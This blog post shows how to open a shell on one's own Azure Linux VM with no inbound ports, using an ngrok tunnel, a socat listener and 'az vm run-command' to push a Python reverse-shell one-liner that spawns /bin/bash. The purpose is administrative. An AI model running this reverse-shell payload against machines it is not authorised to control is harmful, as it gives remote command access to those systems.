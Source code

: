 ```yaml
---
layout: post
title: "Reverse shell to your Azure VM without inbound access"
date: 2021-02-23
permalink: reverse-shell-azure
---
```


> **Purpose:** 
> For any Azure Compute Linux VM where you have permission to execute one-off commands via the Azure CLI, 
> issues a reverse shell command to the VM and sends the shell back to you over TCP (via an ngrok tunnel)

There are many practical reasons - whether due to cost constraints or lack of necessity - to not attach a public IP address/allow inbound acccess to an Azure Compute VM.  Nevertheless, once in a while it may be convenient to get a shell on a VM to tweak a setting or debug a problem. One solution would be to simply attach a public IP to the VM. In an ad-hoc situation, the solution I propose below is quick and easy once you have the tools set up. 

This solution aims to **replace** scenarios where you'd want to use the Azure dashboard's [integrated serial console](linux-diagnose-agent.md#azure-console).  To use the serial console, you needed to jump through several hoops and interface with the (buggy and not-too-fun-to-use) web console. This approach uses the Azure CLI's ability to [issue one-off shell commands to the VM](https://docs.microsoft.com/en-us/azure/virtual-machines/linux/run-command).  We are exploiting that feature to create a reverse shell back to our computer through a TCP connection.  We use ngrok to expose a TCP port on our local machine.

> Note that in this post I don't go through the process of setting up an encrypted TCP connection between your machine and the VM.  Following [this post by erev0s](https://erev0s.com/blog/encrypted-bind-and-reverse-shells-socat/#encrypted-reverse-shell) illustrates one such way to encrypt your connection with on an SSL layer.

## How it works

For an Azure VM with OUTBOUND internet access, but with NO INBOUND ports open - the script:

1. Spawns an ngrok TCP relay over local port 56760
2. Spawns a socat tcp listener on port 56760

Essentially: 

```bash
ngrok tcp 56760
socat file:`tty`,raw,echo=0 tcp-listen:56760
```

2. Does some regex magic to find out the random ngrok URL and port

3. Uses the Azure CLI to send a shell command to our VM with [az vm run-command invoke](https://docs.microsoft.com/en-us/cli/azure/vm/run-command?view=azure-cli-latest#az_vm_run_command_invoke).
4. The payload is a standard python reverse shell one-liner that makes a connection back to our listener, and spawning a `pty` with the command `/bin/bash`.

```bash
az vm run-command invoke -g $RESOURCE_GROUP -n $VMID --command-id RunShellScript --scripts "export RHOST=\"$HOST\";export RPORT=$PORT;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv(\"RHOST\"),int(os.getenv(\"RPORT\"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/bash\")'"
```

### Prereqs

| Prereq.   | MacOS Install          | WSL2 Install                                                           |
|-----------|------------------------|------------------------------------------------------------------------|
| socat     | `brew install socat`     | `sudo apt install socat`                                                 |
| ngrok     | `brew install ngrok`     | `wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-amd64.zip -O ngrok.zip && unzip ngrok  && sudo cp ngrok /usr/local/bin && chown $(whoami) /usr/local/bin/ngrok && chmod +x /usr/local/bin/ngrok` |
| Azure CLI | `brew install azure-cli` | `curl -sL https://aka.ms/InstallAzureCLIDeb \| sudo bash`                |
| jq        | `brew install jq`        | `sudo apt install jq`                                                    |

### Additional Setup

1. Create a free ngrok account and run `ngrok authtoken <YOUR TOKEN>` in order to use their tcp relay.
2. Run `az login` to login to the Azure CLI with your credentials. 

## Usage

To use the script on a *nix system, simply run the bash script with your VM's name, resource group, and subscription.  Note you'll need this VM to be visible to you via the Azure CLI with adequate permissions to queue a `run-command`.

Two terminals will be spawned:
 - The `socat` listener window (listening for the reverse shell connection/where we will interact with our Azure VM). 
 - The `ngrok` window running the TCP tunnel facilitating the connection (you can mostly ignore this window, given you do not see an error).

```
./reverse-shell-azure.sh <VM NAME> [RESOURCE_GROUP] [SUBSCRIPTION]
```

Enjoy! - 

<script src="https://gist.github.com/joshspicer/b5c66ad239031e3138469c5948c78bae.js"></script>
